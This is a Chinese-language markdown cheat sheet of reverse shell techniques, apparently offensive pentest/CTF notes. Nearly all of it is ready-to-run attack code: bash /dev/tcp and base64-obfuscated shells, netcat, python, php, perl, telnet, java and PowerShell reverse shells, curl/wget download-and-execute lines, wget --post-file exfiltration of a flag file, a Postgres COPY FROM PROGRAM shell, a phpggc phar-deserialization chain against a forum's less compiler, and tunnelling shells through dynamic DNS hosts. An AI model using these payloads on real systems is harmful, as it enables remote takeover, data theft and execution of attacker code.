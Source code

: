 [revshells](https://www.revshells.com/)
[反弹 Shell 大全与原理](https://mp.weixin.qq.com/s/ClqEAqpPxlscNJphSBfhKA)
[Ladon | 22 种反弹 Shell 方法 openssl\\java\\py\\php\\perl\\lua\\curl\\socat ncat ruby](https://mp.weixin.qq.com/s/oPFxDxaUb9eGm-zrJzP55g)


- TheFatRat 创建反弹 shell

## 反弹 Shell

https://www.cnblogs.com/xiaozi/p/13493010.html

如果是 php_shell, `?c=system('wget http://xxx')` , `wget xxx` 这里要进行 url 编码

windows 上传 `certutil -urlcache -split -f http://11.1.63.37/nc.exe nc.exe`

nc 参数

```shell
-l              listen mode, for inbound connects
-L              listen harder, re-listen on socket close
-v              verbose [use twice to be more verbose]
```

**bash 连接**

```shell
# 攻击机器
nc -lvp 7777

# 被攻击机 , 不要在zsh
/bin/bash -i >& /dev/tcp/攻击机ip/7777 0>&1
bash -c '/bin/bash -i >& /dev/tcp/192.168.50.161/7777 0>&1'
bash -c 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTAuMTYxLzc3NzcgMD4mMQ==|base64 -d|bash -i'
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTAuMTYxLzc3NzcgMD4mMQ==|base64 -d|bash
curl http://攻击机ip:2126/sa.sh|bash

## curl: shell.txt,内容为bash -i >& /dev/tcp/攻击机ip/7777 0>&1
curl 192.168.1.20|bash
nc 127.0.0.1 7777 -e /bin/bash
nc 127.0.0.1 7777 -e cmd.exe                       // Windows
nc 127.0.0.1 7777 -e c:\windows\system32\cmd.exe   // Windows

## nc连接无 -e 参数
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc 1.1.1.1 7777 1>/tmp/backpipe

nc -e /bin/sh 192.168.50.161 4444
## python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.1",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
## php
php -r '$sock=fsockopen("192.168.32.1",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
### php/pcntl_exec
/?cmd=pcntl_exec("/usr/bin/python",array('-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("1.1.1.1",29999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));

## perl - Linux
perl -e 'use Socket;$i="47.101.57.72";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
## perl - Windows
perl -e 'use Socket;$i="47.101.57.72";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## telnet , 攻击机监听2个端口 nc -lvvp 4445, nc -lvvp 4444
telnet 192.168.50.161 4444 | /bin/bash | telnet 192.168.50.161 4445
```

**powershell**

```bat
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.183.1:8080/powercat.ps1');powercat -c 192.168.183.1 -p 4444 -e cmd
```

**利用被攻击机 ip**
其他都是需要攻击机 ip，这个则相反。我的理解是需要攻击机 ip 的相当于把 shell 弹给攻击机(所以攻击机 ip 和 bash 在一行代码)，而这个相当于在本地端口开个 shell,攻击机访问端口来拿 shell

```shell
nc 1.1.1.1 7777

# 被攻击机输入
nc -lvp 7777 -e /bin/bash
```

python 方式 2

```py
#!/usr/bin/python
#-*- coding: utf-8 -*-
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.20.151",7777)) #更改localhost为自己的外网ip,端口任意
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

客户机

```
curl 192.168.1.20/shell.py|python
```

**wget** 反弹 shell

```
靶机:
wget --post-file /flag http://ip:port/
wget http://wgf4242.51vip.biz/shell.txt -O /tmp/x.php && php /tmp/x.php
wget 192.168.20.130/shell.txt -O /tmp/x.php && php /tmp/x.php
http://xxx/wget?argv=1&argv=--post-file&argv=/flag&argv=http://wgf4242.51vip.biz:34578
vps攻击机: nc -lvp 2333
```

shell.txt 内容

```php
<?php
$sock=fsockopen("1.1.1.1",7777);//localhost为自己的外网ip，端口任意
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

python -m http.server --bind 0.0.0.0 8080

**java** 反弹 shell
[Runtime 执行 linux 命令时管道符不生效](https://mp.weixin.qq.com/s/EhatzI7QVmh_RQZYOWNBYg)

```java
public class Revs {
public static void main(String[] args) throws Exception {
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

Runtime 执行 linux 命令时管道符不生效, 用 base64 编码内容

```sh
#bash
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNC4yLjMuNC8yMjIzIDA+JjEg}|{base64,-d}|{bash,-i}
#python
python -c exec('L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNC4yLjMuNC8yMjIzIDA+JjEg'.decode('base64'))
```

**postgres** 反弹 shell

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM '/bin/bash -i >& /dev/tcp/11.1.xx.xx/1234 0>&1';
-- COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

### less/phar 反弹 shell

原理简单来说是利用 less.php 编译 Less，在编译的过程中，利用`@import (inline)`和`data`伪协议将文件写入到`assets/forum.css`中，再用`data-uri('phar://./assets/forum.css')`触发 phar 反序列化实现命令执行

这里的反序列化链由 phpggc 生成：

- 这里反弹 shell 需要一点小技巧，我这里的打法是：在 29999 端口的 HTTP 服务里放一个 1.txt，然后在 39999 端口监听准备拿 shell

```sh
perl -e 'use Socket;$i="1.1.1.1";$p=39999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

再用 phpggc 生成

```bash
php phpggc -p tar -b Monolog/RCE6 system "curl 1.1.1.1:29999/1.txt|sh"
```

payload 如下, 在自定义 css 处写入以下 payload, 保存

```bash
@import (inline) 'data:text/css;base64,dGVzdC50eHQAAAAAAA......';
```

访问一下，phar 内容成功写入

```bash
http://39.99.150.188/assets/forum.css?v=2166f2e8
```

然后再编辑一下，用 data-uri 做 phar 反序列化触发命令执行

```css
.test {
  content: data-uri("phar://./assets/forum.css");
}
```

### 无公网 IP 反弹 shell

https://www.bilibili.com/video/BV1pq4y1U7CR

方法 1:
花生壳开 127.0.0.1 54321 端口 得到 tcp://397j302b56.zicp.vip:37932
本机 nc -lvvnp 54321
远程 /?c=system("nc wgf4242.51vip.biz 39672 -e /bin/sh");

方法 2:
花生壳开虚拟机地址 192.168.0.102 54321 得到 tcp://397j302b56.zicp.vip:37932
本机 A IP 是 192.168.0.100, 电脑 B 192.168.0.100, 虚拟机 C 属于电脑 B 是 192.168.247.128
如何让 A 与 C 互通
虚拟机 C nc -lvvnp 54321
花生壳 PC$ netsh interface portproxy add v4tov4 listenaddress=192.168.0.102 listenport=54321 connectaddress=192.168.247.128 connectport=54321

bash -i >& /dev/tcp/397j302b56.zicp.vip/22599 0>&1

